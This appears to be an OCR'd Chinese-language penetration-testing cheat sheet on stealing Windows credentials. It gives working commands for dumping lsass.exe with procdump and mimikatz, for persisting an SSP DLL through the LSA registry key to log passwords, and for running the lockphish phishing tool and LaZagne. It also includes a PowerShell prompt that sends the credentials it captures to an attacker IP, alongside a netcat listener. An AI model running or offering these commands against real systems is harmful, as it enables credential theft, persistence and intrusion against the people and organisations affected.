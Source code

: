 		- 任务管理转储lsass.exe为lsass.tmp/procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz加载后抓取明文
privilege::debug
sekurlsa::minidump c:\users\ppbibo\appdata\local\temp\lsass.dmp
sekurlsa::logonpasswords
		- mimikatz "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit

	- SSP

		- 注册SSP的DLL
LSA可扩展，在系统启动时SSP会被加载到进程lsass.exe中
可以自定义一个dll，在系统启动的时候被加载到进程lsass.exe
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
LSA 项中的 Security Packages 键值中存贮着相关SSP的DLL文件
将Mimikatz的mimilib.dll复制到System32目录下
添加mimilib到Security Packages的值中
关机重启
在C:\Windows\System32目录下生成一个kiwissp.log文件，并记录了登陆的账号密码
		- 内存加载SSP
利用Mimikatz中的misc::memssp加载mimilib至内存中去，加载至内存的好处就是无需重启系统，缺点在于不利于持续化
privilege::debug
misc::memssp
锁定计算机管理员登陆之后会在C:\Windows\System32目录下生成mimilsa.log文件并记录账号密码

	- 钓鱼记录明文

		- lockphish 

			- 一个自动化的工具，使用Web界面进行远程的社会工程学钓鱼，并且可规避了免杀的问题
git clone https://github.com/thelinuxchoice/lockphish
cd lockphish
sudo bash lockphish.sh

		- Powershell 简单钓凭证

			- 目标机运行以下ps脚本:
$creds = $host.ui.PromptForCredential("Login Required","Enter username and password.", "$env:username","NewBiosUserName");
$v=$creds.GetNetworkCredential() | Format-List * | Out-String
$v1=$v -replace "\r\n","-" -replace " ",""
Invoke-WebRequest -Uri "http://192.168.200.73/$v1"
# Write-Host -NoNewline $v1.Trim("-")
攻击者监听:
nc -lvp 80

	- LaZagne

		- https://github.com/AlessandroZ/LaZagne/releases/

			- laZagne.exe all
			- laZagne.exe all -oN
			- laZagne.exe browsers

	- 当前保存的凭据
